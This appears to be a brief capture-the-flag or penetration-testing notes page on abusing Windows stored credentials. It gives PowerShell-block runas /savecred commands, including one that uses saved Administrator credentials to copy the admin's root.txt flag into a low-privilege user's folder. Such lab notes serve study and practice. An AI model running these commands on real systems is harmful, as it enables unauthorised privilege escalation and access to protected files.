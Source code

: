 -- -
Use stored credentials to do stuff.
[[Stored Credentials|Get Stored Credentials]]
#### Copy sensitive file (flag)
```powershell
# note, you do not need to use full paths, but this assures if it fails, this is not the vector
C:\Windows\System32\runas.exe /user:<user stored creds> /savecred "C:\Windows\System32\cmd.exe /c <cmd to run>"

C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"
```